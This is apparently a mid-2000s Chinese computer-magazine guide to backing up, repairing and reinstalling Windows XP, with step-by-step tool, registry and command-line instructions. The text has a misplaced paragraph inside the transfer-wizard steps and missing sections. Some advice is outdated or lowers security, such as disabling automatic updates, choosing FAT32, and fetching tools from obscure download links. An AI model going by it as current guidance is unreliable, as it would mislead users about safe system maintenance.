小编有话说：驱动附带的工具绝不仅这十面埋伏，只要你在安装硬件驱动之后仔细留意，说不定就能发现潜伏在其中的猛将。如果有新的功能发现一定记给 CFan 来信，与大家一起分享你的惊喜。

# 待从头，收拾旧河山——Windows 重装大典

有多少爱可以重来
有多少次系统歇菜
当重装系统归来
我的数据全部不在
每当某牛仔唱起这首歌，就让我们感到无限悲哀感同身受，我们挚爱的东西为什么都如此脆弱，装一个操作系统为何不能永远？

重装系统是所有电脑爱好者的必修课之一，游刃有余地重装Windows在某种程度上，甚至比新装系统更考验你的智力、能力和耐力，它是菜鸟向老鸟迈进的重要台阶和转折点！所以今天我们特意为大家准备了这一期重装Windows大宝典，让这件无比烦心、费时的劳动变得轻松些！

## 3招！让你离重装系统远远的

其实只要你善摄生，懂得维护系统之道，就能在很大程度上远离重装，让系统永葆青春。

### 第一招 系统还原防患未然 百毒不侵

Windows XP中的系统还原就像一台时间回溯机，平时在后台默默地监视并记录着系统和一些应用程序文件的更改，让你在Windows出问题的时候，可以轻松返回到以前某个时间的状态(微软把它叫做还原点)，撤销对电脑有害的更改并还原机器的设置和性能，而且不会丢失个人最近的工作，如保存的文件、电子邮件、网页浏览历史或收藏夹列表等。

如果你的机器目前状态不错，就赶紧打开“程序→附件→系统工具→系统还原”来制作一个“系统还原点”吧！

+   **小提示**
★右击“我的电脑”并选择“属性”，进入“系统还原”选项卡，因为系统还原比较占用系统资源，一般选择在系统分区使用系统还原而关闭非系统分区的系统还原选项。
★如果连Windows都无法进入，可以在系统上电自检声响后，Windows欢迎屏幕出现之前按下F8键，接着在菜单中选择Safe Mode with Command Prompt，然后使用管理员身份登录，在命令行提示符后输入:%systemroot%\system32\restore\rstrui.exe，回车后跟随屏幕上的提示将系统恢复到以前正常状态。

### 第二招 硬盘还原卡随心所欲折磨系统

硬盘还原卡是对系统数据的硬保护，比较适合网吧、教室、图书馆等公共场所，这里的电脑往往因为数据的混杂容易受到侵袭，而且也并不需要特别保存个人数据，所以只要让系统恢复到设定的状态就OK了。

硬盘还原卡价格在20元左右一块，还有一种集网卡和还原功能二合一的还原卡，价格在35元左右。硬盘还原卡的好处在于支持即插即用，不占硬盘空间，具备强大的数据保护和还原功能，可防止误删除、误格式化、感染病毒等不希望发生的意外损害。

硬盘还原卡的安装和设置比较简单，流程如下：

+   第一步：在关机状态下，打开机箱，将还原卡插到一个空的PCI插槽内。
第二步：开机自检后将会出现首次安装界面，在安装界面上选择“安装”进入主菜单进行普通的即插即用安装。
第三步：进入系统主菜单后，可以在此调整系统参数，其中包括“修改密码”、“设置硬盘保护”等参数设置(见图1)，而在“设置硬盘保护”选项中将显示检测到的当前硬盘分区状态，如果已经预置多重引导，则会依次显示多个C盘。
第四步：进入“设置系统参数”可设置硬盘数据恢复参数，这里的每个系统参数都预置了一个默认值，必要时可以按照自己的需要进行调整，其中以红色显示的系统参数是高级选项，强烈建议使用默认值，最后按照自己的需要设置好还原功能后，保存后退出即可。



现在任凭你对系统百般践踏都无妨，重启后即可恢复本来面貌。

### 第三招 GoBack忘记你所有的错

还记得我们2004年第21期第33页《系统还原+Ghost =？》一文介绍的GoBack软件吗？它和系统还原有异曲同工之妙，甚至更强大，因此特别适合那些没事就鼓捣电脑，经常尝试新软件和修改系统的读者朋友。你可以在 http://www.onlinedown.net/soft/9674.htm 下载到(见图2)。



Windows即使无法启动，也可以在重启后，在其菜单出现的时候按下空格键进入恢复窗口，选择以前的备份进行恢复。

+   **小提示**
虚拟机里有多少爱都可以重来
如果你是个超级喜欢尝试各种新鲜软件的朋友，建议装套虚拟机软件，因为在虚拟机系统里，可以做任何危险尝试，而你现有的Windows却不会有丝毫损伤。我们推荐大家使用VMware，如果想知道它的具体应用，可以参阅2004年第21期28页的《巧用VMware电脑分身有术》。

## 6招！时刻做好准备与重装面对面

面对突如其来的系统崩溃，很多人都感到手足无措。其实如果平时就有防患意识，修改重要数据保存位置、定期备份重要数据，系统崩溃后就能谈笑应对，又何惧系统死掉呢？

### 第一招 移形幻影避免丢档厄运

Windows中包含若干个特殊的文件夹，例如“我的文档”、“桌面”、“收藏夹”和“开始菜单”等，它们本来身居系统分区，但建议你将它们移动到非系统分区。

打开注册表编辑器，找到[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders]，在右侧窗格双击想要重定向的文件夹，其中“Personal”对应“我的文档”、“Desktop”对应“桌面”、“Favorites”对应“收藏夹”……大家一看便知(见图3)，将其中的“%USERPROFILE%”改为希望保存到的目标分区盘符即可，比如将“Personal”的内容“%USERPROFILE%\My Documents”换成“G:\My Documents”，但在转移前请将原目录下的数据复制或移动到你希望更改的分区之下。



### 第二招 转移数据永保平安

如果觉得重要资料放在自己的电脑上都不安全，那就转移到更安全的地方吧，比如单位的服务器、专用备份硬盘等设备上。定期保存一下重要数据，这样一来还怕自己的系统出问题重装系统吗？

Windows XP自带有“文件和设置转移向导”工具，它能将IE设置、Microsoft Messenger、Microsoft Netmeeting、MSN Explorer、Outlook Express、Windows Media Player、区域设置、任务栏选项、显示属性、共享文档、桌面、我的文档等内容轻松备份到其他分区或设备上，非常方便实用！

+   1.从旧电脑获取文件和设置
第一步：在“开始”菜单中单击“附件→系统工具→文件和设置转移向导”出现“文件和设置转移向导”界面(见图4)。



第二步：在单击“下一步”出现的对话框中，选中“旧计算机”单选按钮，就是要选择从这台电脑转移的文件和设置，然后单击“下一步”。

第三步：在“选择转移方法”的对话框中，可以选择直接电缆、软盘驱动器或其他(如可移动驱动器或网络驱动器)，然后单击“下一步”。如果是大量的数据需要转移，最好是以网络的方式转移，放置数据的位置一定要是新计算机也可以访问的地方，否则就麻烦了。

第四步：在弹出的“选择转移的项目”对话框，选中“包括文件和设置”单选按钮和下面的复选框(见图5)。这样，我们在下一步



最后，重启电脑使之生效，这样在重装系统时就不必担心其中的文件丢失。在系统崩溃重装后，只需再次更改注册表内容，这些重要数据就会继续为你服务了，而不会受到侵害。就可以自己选择需要的文件和设置了。
第五步：在“选择自定义文件和设置”对话框中，我们就可以按照需要转移的内容列表添加或删除所需的内容了，注意：选择时不要的文件和设置一定要毫不犹豫地去掉，否则数据量将非常大。
接着系统就开始收集计算机的设置和文件，并将其放置到指定地点。

## 第二招：将数据转移回新的系统

当 Windows 重装完毕后，利用向导可以完好地将数据归位：
第一步：打开“文件和设置转移向导”后，在“这是哪台计算机”对话框中选中“新计算机”单选按钮，表示要将文件和设置转移到这台计算机。
第二步：在随后的“您有 Windows XP CD 吗？”对话框中，单击选中“我不需要 Windows XP CD，我已从旧计算机收集了文件和设置”单选按钮(见图6)进入下一步。
第三步：在“文件和设置在哪儿”对话框中，选择文件的存储方式和位置，这里是依据文件和设置存储的位置而决定。接着系统将自动将文件和设置数据转移到这台电脑。
完成文件和数据的转移以后，系统将询问用户是否注销，新设置只有在注销后才会生效，这样就完成了文件和设置的转移。

## 第三招 微软的 Ghost —— “自动系统恢复向导”

“自动系统恢复向导”(Automated System Recovery，简称 ASR)会对系统状态、系统服务以及与操作系统组件相关联的所有内容进行备份，同时还创建一个包含备份信息、磁盘配置以及恢复方式等内容的文件，其特点是完整恢复 Windows XP 为原来的面貌，包括系统的各项配置和所安装的各种软件。与系统还原不同的是，ASR 能够既彻底地重装操作系统，又可以自动提取和恢复原来的系统文件和程序文件，类似 Ghost 的克隆功能。

### 1. 创建备份文件与修复软盘

第一步：在 Windows XP 中单击“开始→所有程序→附件→系统工具→备份”，再点击对话框中出现的“高级模式”转向标签来到“备份工具”对话框中(见图7)，单击“欢迎”选项卡下的“自动系统恢复向导”按钮，进入“自动系统故障恢复准备向导”对话框，再单击“下一步”进入向导对话框。
第二步：根据向导的提示，在“备份媒体或文件名”下面的输入框中，键入生成的映像文件保存路径及名称，如 G:\Backup.bkf。

### 小提示

ASR 会将启动分区上的绝大部分数据复制到备份文件中，生成的文件大小一般为启动分区现有文件容量的90%左右，因此在选择映像文件保存路径时要注意该分区有没有足够的空闲空间。

第三步：单击“下一步”按钮，进入“正在完成自动系统故障恢复准备向导”对话框，单击“完成”按钮，进入“备份进度”对话框，系统开始备份文件(见图8)。
第四步：备份结束后，系统会提示插入一张格式化好的软盘到软驱中，开始制作 ASR 修复盘。修复盘制作完成后，要注意将此盘设置为写保护状态，并妥善保管。

### 2. 用修复软盘恢复系统

一旦以后 Windows XP 出现了问题，就可以使用 ASR 软盘修复系统故障。
第一步：在 BIOS 中设置计算机的光驱为第一启动顺序，然后将 Windows XP 安装盘放到光驱中，直接从光盘引导系统开始 Windows XP 的安装。
第二步：当安装程序进入蓝底白字的字符模式的提示时，按下 F2 键，并按照屏幕提示插入 ASR 恢复软盘(见图9)。
第三步：安装程序此时会启动 ASR 进程，并加载必要的文件和驱动，然后开始格式化 C 盘(注意要提前备份重要数据)并读取软盘中保存的磁盘配置。
第四步：安装程序会从 Windows XP 安装光盘或安装文件夹中复制文件，安装一个“最小”的 Windows XP，然后启动“自动系统故障恢复”向导，此时用户可以指定备份文件的保存路径，系统会自动在这个最小的 Windows XP 环境里打开“备份工具”，将备份文件导入原有位置(见图10)。
第五步：恢复完毕后，重启电脑，你会发现 Windows XP 又恢复原样啦！

### 小提示

请专家帮你备份程序设置

BackRex Expert Backup能够轻松备份Windows中各种软件以及几乎所有Windows用户个性设置，包括从桌面、鼠标设定、声音设定、离线浏览文件夹、OE邮件、IE，甚至是 Office 和个别应用软件的设置等，其下载地址在：http://nj.onlinedown.net/soft/6386.htm，最新版本为 2.5。

## 第四招 驱动在手 重装顺手

这里向大家推荐“驱动之家”推出的“Mydrivers 驱动精灵2004”(下载地址：http://www.mydrivers.com/dir87/d34856.htm)。
驱动精灵(见图11)提供了“搜索需要备份的驱动”和“搜索系统的全部驱动”两种搜索方式。其中“搜索需要备份的驱动”用于查找非操作系统自带的驱动程序，这些驱动程序是备份重点。在主窗格中的设备列表中，勾选要备份驱动程序的设备，单击上方的“备份驱动”按钮，即可将选择的驱动程序备份到指定的目录中(默认备份在“D:\DriverBackup”目录中)。
当需要重装驱动程序时，点击程序界面上方的“安装驱动”按钮，这时会弹出添加硬件向导，按照向导提示进行操作，选择“自动搜索并安装新硬件”或者“从列表中手动选择安装硬件”，注意在搜索驱动程序时，要将路径指向驱动备份目录。

## 第五招 手边常备万能系统克隆盘

目前网上有许多万能系统克隆盘提供下载，它的特点是，不管电脑硬件配置用它都能够进行克隆恢复，而且其中的系统已经安装了大多数常用软件，并进行了必要的系统设置，你不必再费时一一安装和配置，所以能让你在5~10分钟就完成安装 Windows 的操作。但这种光盘往往由别人定制，可能许多地方并不符合你的喜好，其实你也可以打造一张。具体方法可参考2004年《电脑爱好者》第6期《你不再是我的惟一——制作万能克隆文件》。

## 第六招 Windows Update 不做第二次

每次重装完 Windows，最烦人的便是打开 Windows Update 网站安装一大堆补丁程序，而且还无法保存，其实微软早就提供了能保存更新程序的功能。
在第一次安装完 Windows 后，建议坚持使用 http://v4.windowsupdate.microsoft.com/catalog/zhcn/ 来更新升级和补丁，而不是直接点击“开始→Windows Update”，同时关闭 Windows 自动更新功能。
第一步：进入该页面后直接单击左侧的“查找 Microsoft Windows 更新”链接，接着选择操作系统版本，然后单击“搜索”按钮(见图12)。
第二步：在出现的搜索结果列表中单击相应更新，比如“重要更新”，这样下方会出现具体更新清单，在需要的更新上单击“添加”按钮，照此方法将所有更新添加进这里的虚拟下载篮子，然后单击“转到下载篮子”链接。
第三步：在下载篮子窗口，单击“浏览”按钮定位到本地硬盘非系统分区的任意文件夹中，然后单击“立即下载”按钮（如果使用Windows XP SP2，IE会自动拦截弹出窗口，你应提前在IE的“工具→选项→安全”中选择“受信任的站点”，接着单击“站点”按钮，然后将上面的链接添加进去，否则有可能无法完成下载）。这时会弹出版权窗口，“接受”后便开始下载了。完成后，会自动出现下载历史页面，其中会显示更新保存的位置。
虽然上面方法可以将Windows更新和升级保存起来，但每次安装时却不那么方便，还得一一安装，因此我们推荐你使用更智能的工具——WUtool(下载地址:http://ovaciam.com/ru/wWUtool_1.16.zip)，它能够让更新自动安装。具体使用方法可参考《重装Windows大宝典之辅助手册》中的《一劳永逸的Windows Update》。

## 马上重装？先别急！

有许多人把重装Windows当做解决一切问题的灵丹妙药，电脑一有问题就重装，甚至把它当成解决菜鸟问题的制胜法宝，岂不说这要花费多少时间，最重要的是，他们浪费了许多通过排除故障增强自己电脑知识的宝贵机会，下面我们为大家举一些比较经典的实例。

## 系统一慢就重装

系统变慢有很多原因，其实大部分是因为病毒、木马、间谍软件(通常会使上网变慢)造成的，所以在出现系统变慢后，你首先应该用杀毒软件查杀病毒和木马，用Ad-aware SE Professional(下载地址:http://www2.skycn.com/soft/13484.html)等反间谍软件工具清除间谍软件。

## 系统启动不了就重装

如果出现系统无法启动的问题，应首先考虑你是否新装了什么硬件或软件，然后有针对性地通过以下步骤排除：
- 1.最后一次正确配置
  在电脑启动并出现启动菜单时按F8键，在出现的高级选项菜单中选择“最后一次正确配置”，它是从问题(如新添加的驱动程序与硬件不相符)中恢复的一种方法。但不能解决由于驱动程序或文件被损坏或丢失所导致的问题。
- 2.安全模式
  能在系统启动时按F8进入安全模式说明问题应该不那么严重，很可能是损坏的驱动程序、硬件冲突或安装的软件造成的，你可以进入“开始→设置→控制面板→管理工具→事件查看器”，查看“系统日志”中是否有可用信息。
  如果之前安装了新硬件，请按下Win+R组合键，在“运行”对话框中输入“msinfo32”，回车后进入“系统信息”窗口的“组件→有问题的设备”，查看右侧窗格中列出来的设备。然后，按Win+Break组合键进入“设备管理器”，停用那些可疑设备。接着重启，看是否能进入Windows正常模式。
  如果是安装了新软件，可直接将其卸载，并进入“命令行提示符”，运行“sfc /scannow”对系统文件进行扫描和恢复。
  另外，如果你更换了像显卡等硬件，而没有卸载以前的驱动程序，则要在安全模式的“设备管理器”中删除它，然后再进入系统安装新的显卡驱动程序。

> 小提示
系统启动时不断自动重启也是一个常见故障,它往往是由于软件原因造成的,一般情况下利用安全模式都能解决,也就是在其中卸载新装的软件。

### 3.故障恢复控制台

如果连安全模式都无法进入，则很可能是系统文件、服务或设备的问题。
首先重启系统，在出现启动菜单中按F8键进入高级选项菜单，选择“启用启动日志”，这样系统会自动在操作系统的安装目录如Windows目录下生成ntbtlog.txt文件。
用Windows安装光盘启动系统，并在出现“欢迎使用安装程序”屏幕时，按R键进入修复选项，再按C键启动故障恢复控制台。输入“type ntbtlog.txt”，这样会显示该文件内容，注意最后面的语句，如果语句中包含有“Fail”字符，请将文件名记录下来，然后进行恢复。另外，有时系统在启动时也会提示某些文件丢失或损坏。恢复文件主要用以下两个命令：

```
COPY命令:
COPY 光盘盘符:\I386\某个DLL文件名 C:\WINDOWS\system32\
EXPAND命令:
EXPAND 光盘盘符:\I386\文件名(因为是在CAB压缩包中或进行了压缩，所以往往不带扩展名，或.EX_、CP_等扩展名) C:\WINDOWS\system32\带扩展名的文件名。
```

> 小提示
如果你已经安装了Windows XP的SP2，最好使用集成有SP2的安装光盘。

在安装了某个硬件或软件后，它们向系统中安装的设备或服务与当前的Windows不兼容，造成无法启动，就需要将其关闭。
进入cmd命令行模式C:\WINDOWS\system32目录下，输入:listvc，回车后会列出当前系统所安装的服务或设备，找到并记下与新装硬件或软件相关的服务或设备名，然后输入:disable 服务或设备名，回车即可将其停用。

## 可怕的蓝屏来了，我要重装

蓝屏确实很可怕，但相信你看过2004年第21期《识破Windows的蓝色生死符—Windows 2000/XP蓝屏全攻略》后，就不会再对它那么惧怕了。确实，许多蓝屏情况是需要重装Windows的，但也有不少只要进行一些简单操作就能避免，比如：在故障恢复控制台中执行ChkDsk /r命令等，所以赶快去看看那篇文章吧，里面收集了将近70个著名蓝屏信息的解决方案，同时还有一些经典的通用方法。

## 你知道吗

PC新人请注意！什么时候要重装系统呢？
如果操作系统出现以下四种情况之一，应该考虑重装了：
- 许多软件启动或运行异常缓慢，效率变得极其低下，甚至不能启动或运行；
- 硬盘系统分区充斥垃圾文件，数量庞大且到处散乱分布，已经不便于自动或手工清理；
- 系统频繁发生莫名其妙的错误，而故障原因不明，不便于准确定位或简易解决；
- 系统启动异常缓慢，或者系统不能启动。

## 最后关头！细细检查是否全部备份了

不管选择哪一种重装方式，请一定注意自己的重要个人数据是否已经备份妥当，否则真是会追悔莫及的。

> 小提示
我连Windows都进不去了怎么备份？

可以先试试是否能进入安全模式，如果不能，最好使用Windows PE这样的光盘版操作系统启动电脑，进行备份。如果你不知道怎样制作它，请看《重装Windows大宝典之辅助手册》中的《系统维护，我就要完全图形化的》文章，或直接从网上搜索并下载。

### 1.用户文档是珍宝，首当其冲备份好

前面已经介绍了如何将“我的文档”、“桌面”、“收藏夹”等个人数据集散地转移到其他分区的方法，如果你没有那样做，最好检查一下“X(系统盘符):\Documents and Settings\你的用户名\My Documents”目录，将其中的个人文档、多媒体文件、照片、某些软件和游戏的配置及存档文件转移到其他分区。

> 小提示
不少朋友习惯把文档保存在桌面上，所以记得备份“X(系统盘符):\Documents and Settings\你的用户名\Desktop”目录中的内容。

- （1）智能ABC：智能ABC输入法自定义词组有两种方式，一种是自动记忆词组，一种是手动强制词组。因此它会产生两个词库文件Tmmr.remt和User.rem。在‘X（系统盘符）：\Documents and Settings\你的用户名\Application Data\Microsoft\MME\winabc下。
- （2）紫光拼音：自带词库备份功能，进入‘设置属性→用户词库管理→词库备份和恢复’执行备份（见图14）。当然，也可手工保存。找到‘X（系统盘符）：\Documents and Settings\你的用户名\Application Data\unispim’目录下的‘Usrwll.dat’保存即可。
- （3）微软拼音输入法：在‘X（系统盘符）：\Documents and Settings\你的用户名\Application Data\Microsoft\MSSCIPY’下的‘P用户名Px.UPT’和‘P用户名Lx.IMD’。另外也可以使用其‘自造词工具’来备份。

### 4.邮箱、QQ备份好，八方联系不断

- （1）Outlook Express
  打开Outlook Express，进入‘工具→选项→维护’，单击‘存储文件夹’按钮，再单击‘更改’按钮，在弹出窗口中选择其他分区的一个文件夹，比如：‘D：\mail’，这样邮件就全部转移到D：\mail文件夹下了。重装完成恢复时，只要在Outlook Express中点击‘文件→导入→邮件→Microsoft Outlook Express6’，接着选择‘从OE6存储目录中导入邮件’并选择备份文件夹即可。
- （2）备份Outlook个人文件夹
  Outlook 2000及更高版本中，使用个人文件夹备份功能，可以备份全部或任意.PST文件。每个.PST文件包含所有Outlook文件夹，包括收件箱、日历和联系人文件夹。在微软的网站下载http://download.microsoft.com/download/0/b/0/3/b0372eb8-3bef-46ab-8f1b-ded61cd6ade36/pfbackup.exe，安装完毕之后，在Outlook的‘文件’菜单中会多出一个新的‘备份’菜单项，点击它进入备份选项窗口。在这个窗口中，可以设置备份周期，备份内容及备份位置。设置完毕后，点击‘确定’回到前一个窗口，然后再点击‘保存备份文件’。这样设置后，当下次退出Outlook时，该插件就会自动备份Outlook中的资料了。

### 5.为了安全和时间 别忘记备份病毒库

- （1）金山毒霸V/VI
  金山毒霸的升级文件都保存在安装目录的‘UPDATE’文件夹中，只要把这个文件夹备份到其他分区即可。重装毒霸后，右击任务栏防火墙选择‘在线升级’，接着点击‘从本地、局域网上升级’，然后选择保存好的‘UPDATE’文件夹，最后点击‘下一步’即可完成。
- （2）KV2003/2004/2005
  KV2003的升级文件保存在安装目录的‘TEMP’目录中，而KV2004则保存在‘UPDATE’文件夹中。根据版本不同备份对应的文件夹就是了。重装软件后，进入KV2003/2004/2005主界面，点击‘工具→选项→升级’，选择‘局域网升级’并把升级路径设为备份的文件夹，‘确定’后回到主界面，点击‘工具→升级’，稍等一会儿就可以恢复成功。完成升级后，再把‘升级’设置改为‘通过因特网升级’即可。
- （3）瑞星2004
  重装系统前，先入瑞星主界面，点击“工具→制作硬盘安装备份”，接着选择保存的目录，等文件复制完毕就可以把当前使用的版本备份成功。装好系统后，运行保存目录中的Setup.exe进行安装，完成后便恢复到备份时的版本。

### 6.因为过程太繁琐 激活信息不能忘

首先Windows XP的‘Windows \\System32’文件夹，将其中的‘Wpa.dbl’和‘Wpa.bak’这两个文件备份到其他位置。当再次安装Windows XP后，在安全模式下将备份的这两个文件复制到‘Windows\\system32’文件夹即可恢复激活状态。《重装Windows大宝典之辅助手册》中《你的系统装‘防盗钥匙’了吗》一文有详细说明。

最后仔细想一想，不要中间出差错
再梳理一下所有准备工作是否完成，包括驱动程序是否已经备份；安装的序列号是否写在纸上；如果在局域网是否已经把网线拔掉；安装光盘是否有严重损伤；是否已经准备好杀毒软件等。

## 因为故障，你应先试修复安装

故障无法解决时，你应该首先采取修复安装的办法。
优点：能够快速完成重装，特别适合电脑出现故障，无法启动时采用。
缺点：对于较严重的故障无法排除。
Windows 2000/XP安装光盘提供了修复安装（又叫原位升级）的功能，能解决大部分系统故障，包括文件损坏（有时不能完全解决，因此可能还需要使用上面的方法）、系统引导文件损坏、病毒替换文件造成的操作系统无法启动等故障。此外，修复安装的最大好处是修复后的系统保留了所有用户信息及配置文件，系统中原先已安装的软件及其配置也能完整保留。不过，修复安装并非万能，对于硬件冲突、软件冲突、注册表损坏导致的系统崩溃问题，即使进行了修复安装，也很可能无法解决故障。
用安装光盘启动电脑，当看到屏幕显示“欢迎使用安装程序”时，按下回车键，接着按F8键接受“Windows许可协议”，安装程序会显示出已安装到电脑的Windows，选择要修复的系统后按R键即可开始修复安装。

## 我好懒，告诉我最简单的方法

最简单的办法就是覆盖安装系统。
优点：不必事先备份出重要文件，直接安装，甚至有些以前的软件仍然可以正常使用，特别适合Windows 2000/XP用户选择。
缺点：不会起到彻底清理系统分区的作用，会造成系统分区更为臃肿。

### 1.安装新操作系统，并建立临时账号

第一步：首先确定BIOS设置中设置了光驱启动优先，接着用Windows 2000/XP安装光盘启动电脑。
注意：要保证C盘有足够的剩余空间，最小也要1GB。否则无法重装。
第二步：在出现安装欢迎界面时按回车键。当通知已有一个Windows时，按Esc键开始执行全新安装。请选择C分区，按回车键。当警告已存在一个操作系统时，按“C”键。询问分区格式时，选择“保留当前文件系统不变”。当通知Windows文件夹已存在时，选择删除并创建新文件夹。当询问用户名称时，请输入“1”。
第三步：安装完成后，重启进入Windows，以“1”用户身份登录。
如果重装的是Windows XP，请直接跳到第3部分（“添加其他用户”）。

### 2.将原来的管理员目录复制到临时账号目录中

第一步：注销“1”，并以“Administrator”身份重新登录后立即注销，然后再以“1”身份登录。打开资源管理器，进入“C：\Documents and Settings”，看到有一个“Administrator”文件夹，这是旧系统的管理员目录；另一个是类似“Administrator.computername”的子文件夹，这实际上就是1用户的文件夹。

#### 小提示
“Administrator.computername”文件夹中的computename表示计算机名称，安装Windows时由用户输入或安装程序自动生成，例如，计算机名为abc，那么该文件夹名就是“Administrator.abc”。

第二步：选择“开始→程序→附件→命令提示符”。键入：cd documents and settings，按回车键。键入：xcopy administrator\*.* administrator.computername /s /h /r /c。
注意：命令中的“computername”要替换成前面介绍的“abc”。当询问有关重写文件或文件夹时，全部按A键。

### 3.添加其他用户

如果旧系统中除“Administrator”外还有其他用户，按下述步骤操作。如果只有一个用户，复制工作就完成了。

#### 小提示
Windows XP常规模式默认不允许以“Administrator”身份登录，即使用Windows 2000登录模式输入“Administrator”登录，一旦注销系统，将删除“Administrator”文件夹。

第一步：打开资源管理器，新建文件夹“oldmydata”。选定“Documents and Settings”文件夹，把除temp文件夹以外的所有用户文件夹移动到“oldmydata”文件夹。
第二步：选择“开始→设置→控制面板→用户和密码”（Windows XP：“开始→控制面板→用户账户”）。为原来系统中的旧用户重新创建账号。注意要保证用户名正确无误，应该与移动到“oldmydata”文件夹的子文件夹名相同。对于Windows XP，至少要有一个用户具有系统管理员特权。
第三步：注销“1”，以每个用户身份重新登录一遍。
第四步：重新以“1”身份登录，选择“开始→程序→附件→命令提示符”（Windows XP：“开始→所有程序→附件→命令提示符”），键入：xcopy c：\oldmydata\*.* c：\documents and settings /s /h /r /c，按回车键。当询问重写文件时，请按A键。注销“1”，以每个用户的身份分别登录，检查个人信息是否完好。确认后，以系统管理员身份登录，再次运行“控制面板→用户账户”，删除“1”用户。

### 4.收尾工作

以后，进入“C：\Program File”文件夹，试运行以前安装的应用程序。同时，可能要重装一些配件的驱动程序。正常使用一段时间后，如果确信系统一切正常，就可以删除“oldmydata”文件夹和“Administrator”文件夹。

## 我要电脑洗心革面

下面我们全程Show一次安装Windows XP操作系统，新手朋友有机会按操作顺序完完整整地独立重装一次，将会进步不小。
优点：你会得到一个干净无比的Windows，同时系统分区的所有垃圾文件都将消失。
缺点：整个过程要漫长不少，前期要做好重要数据的备份工作，后期还要重新安装各种软件。

### 1.设置从光盘启动

重启电脑，在启动的时候就按住Del键不放，进入BIOS设置，在Bios Features Setup(BIOS功能设定)中找到Boot Sequence（开机优先顺序），用选择CD-ROM，保存设置并重启。将XP安装光盘放入光驱，重启电脑。刚启动时，如果出现如图15所示时快速按下回车键，否则不能启动XP系统安装光盘。

## 2. Windows XP 安装实录

- 1. 第一步：光盘自启动后，如无意外即可见到安装界面，将出现中文提示“要现在安装 Windows XP，请按 ENTER”，按回车键后，出现许可协议，按 F8 键同意。
- 2. 第二步：用“向下或向上”方向键选择安装系统所用的分区，如果已格式化 C 盘请选择 C 分区，选择好分区后按回车键，出现如图 16 所示画面。

第三步：这里对所选分区可以进行格式化，从而转换文件系统格式或保存现有文件系统，有多种选择，但要注意的是 NTFS 文件系统可节约磁盘空间提高安全性和减小磁盘碎片，但同时 Windows 98SE/Me 下看不到 NTFS 文件系统的分区，这里为了方便以后安装多系统选“用 FAT 文件系统格式化磁盘分区(快)”，按回车键，出现将格式化 C 盘的警告，按F键继续。
由于所选分区 C 的空间大于 2048MB(即 2GB)，FAT 文件系统不支持大于 2048MB 的磁盘分区，所以安装程序会用 FAT32 文件系统格式对 C 盘进行格式化，按回车键，如图 17 所示正在格式化 C 分区。

只有用光盘启动或安装启动软盘启动 XP 安装程序，才能在安装过程中提供格式化分区选项；如果用 Windows 98/Me 启动盘启动进入 DOS 下，运行“i386\winnt”进行安装时，将不会出现格式化分区选项。
格式化完成后安装程序开始复制文件，文件复制完后，安装程序开始初始化 Windows 配置。然后系统将会自动在 15 秒后重启。重启后，继续安装一段时间会出现如图 18 的区域和语言设置，选用默认值即可，直接点“下一步”按钮。

第四步：在出现如图 19 的选项框中输入你想好的姓名和单位，这里的姓名是你以后注册的用户名，点“下一步”按钮。此时我们安装前准备的序列号就派上用场了。这里输入安装序列号，点“下一步”按钮。

### 小提示

如果前面备份时忘记了记录序列号，你可以尝试在光盘引导之后进入命令行，在光盘上用 dir sn.txt /s 命令查找有没有 sn.txt 序列号文件，如果有，可以通过输入命令 type sn.txt 来查看序列号，不过还是强烈建议你预先准备好。

第五步：接上一步会出现如图 20 的界面，安装程序自动为你创建又长又难看的计算机名称，自己可任意更改你喜欢的名字，如 ComputerName。输入两次系统管理员密码，请一定记住这个密码，Administrator 系统管理员在系统中具有最高权限，平时登录系统不需要这个账号。

### 小提示

千万不要为了省事将 Administrator 管理员用户的密码设为空，这样你的系统没有任何安全性可说。但是设置了密码一定要记下来，不然将来也是个相当大的麻烦。

第六步：接着点“下一步”出现日期和时间设置窗口，不用讲，选北京时间，点“下一步”，开始安装，复制系统文件、安装网络系统。

第七步：当出现选择网络安装所用的方式的画面，选“典型设置”继续安装。
到这里后就不用你参与了，安装程序会自动完成全过程。安装完成后自动重启，出现启动画面。第一次启动需要较长时间，请耐心等候。

第八步：当出现欢迎使用画面时，系统会提示你进行基本设置，点击“下一步”开始。

第九步：这时会出现设置你的上网连接画面，在这里先创建一个宽带连接，选第一项“数字用户线(ADSL)或电缆调制解调器”后点击“下一步”，目前多数人使用的是电信或联通ADSL宽带，都是有账号和密码的，所以选“是，我使用用户名和密码连接”，点击“下一步”按钮，按照你的 ISP 提供给你的数据进行设置。

第十步：输入电信提供的账号和密码，在“你的 ISP 的服务名”处输入你喜欢的名称，该名称作为拨号连接快捷菜单的名称，如果留空系统会自动创建名为“我的 ISP”作为该连接的名称，点击“下一步”按钮。

第十一步：已经建立了拨号连接，微软当然想你现在就激活 XP 啦，不过即使不激活也有 30 天试用期，又何必急呢？选择“否，请等候几天提醒我”，点击“下一步”按钮。

第十二步：出现如图 21 所示画面，输入一个你平时用来登录电脑的用户名，点下一步。

第十三步：点击完成，安装结束，系统将注销并以新用户身份登录，登录桌面后如图 22 所示。看到了蓝天白云的画面，到此系统就基本上安装完成了。

以上是典型的 Windows XP 的安装全过程，如果有朋友并不喜欢 Windows XP 请你到 http://soft.2118.com.cn/down/SystemInstall.Rar 下载《操作系统安装过程详细图解》电子书，你可以通过它掌握各种版本 Windows 操作系统的安装流程。

## 没有光驱和软驱，该怎样重装 Windows?

- 1. 如果在局域网中，可以请同事共享他的光驱将安装文件复制过来(只复制 I386 目录下所有文件即可)或将安装文件复制到服务器中，然后复制到自己电脑中的非系统分区，接下来如果还能启动到 Windows，则直接运行其中的 Winnt32.exe 进行安装。
- 2. 为保证在无法进入 Windows 的情况下重装 Windows(如果支持 USB 启动，可制作 USB 启动盘，如果不支持则按这里的方法)，建议平时就安装好 2004 年第 23 期介绍的《“保真价实”的虚拟软驱》下载地址:http://www.newhua.com/cfan/200423/vfloppy.zip)，然后再下载 Windows Me 启动盘镜像文件(下载地址:http://rochestertek.com/ftp-files/Windows/bootme.exe)，加载到虚拟软驱中，这样重启后，就会有相应的 DOS 启动菜单，并可进入纯 DOS 模式，然后运行 I386 文件夹中的 Winnt.exe 进行安装。
- 3. 如果是无软驱、无光驱、无 USB 启动的单机用户，建议按照 2005 年第 3 期中《超越 ISOEMU 用 ISO 文件重装 Windows》来进行重装。

## 重装后必做的4件事

重装完成后必须立刻做的4件事:

# 1 天！我在网上安个家

因龙马工作室 朱展旭 宁宁

